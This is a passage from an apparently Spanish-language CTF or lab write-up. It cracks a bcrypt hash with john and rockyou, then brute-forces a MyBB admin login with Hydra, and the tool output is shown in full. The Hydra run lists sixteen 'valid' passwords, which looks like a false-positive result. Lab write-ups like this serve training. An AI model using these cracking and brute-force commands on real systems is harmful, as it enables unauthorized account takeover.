 > hash

```
$2y$10$OwtjLEqBf9BFDtK8sSzJ5u.gR.tKYfYNmcWqIzQBbkv.pTgKX.pPi
```

Ahora lo haremos con `john`:

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tinkerbell       (?)     
1g 0:00:00:00 DONE (2025-01-26 10:31) 4.166g/s 300.0p/s 300.0c/s 300.0C/s 123456..666666
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que nos ha `crackeado` la contraseña correctamente, pero esto no nos servira para el `Software` de `MyBB` lo mas seguro es que sea del usuario dentro del sistema, vamos a lanzar fuerza bruta contra el login del `Software` con el usuario `admin`.

## Hydra

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/member.php:quick_username=^USER^&quick_password=^PASS^=login:The username and password combination you entered is invalid."
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-26 10:47:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://panel.mybb.dl:80/member.php:quick_username=^USER^&quick_password=^PASS^=login:The username and password combination you entered is invalid.
[80][http-post-form] host: panel.mybb.dl   login: admin   password: monkey
[80][http-post-form] host: panel.mybb.dl   login: admin   password: password
[80][http-post-form] host: panel.mybb.dl   login: admin   password: iloveyou
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 12345678
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 123456
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 1234567
[80][http-post-form] host: panel.mybb.dl   login: admin   password: daniel
[80][http-post-form] host: panel.mybb.dl   login: admin   password: babygirl
[80][http-post-form] host: panel.mybb.dl   login: admin   password: jessica
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 12345
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 123456789
[80][http-post-form] host: panel.mybb.dl   login: admin   password: princess
[80][http-post-form] host: panel.mybb.dl   login: admin   password: rockyou
[80][http-post-form] host: panel.mybb.dl   login: admin   password: abc123
[80][http-post-form] host: panel.mybb.dl   login: admin   password: nicole
[80][http-post-form] host: panel.mybb.dl   login: admin   password: lovely
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-26 10:47:05
```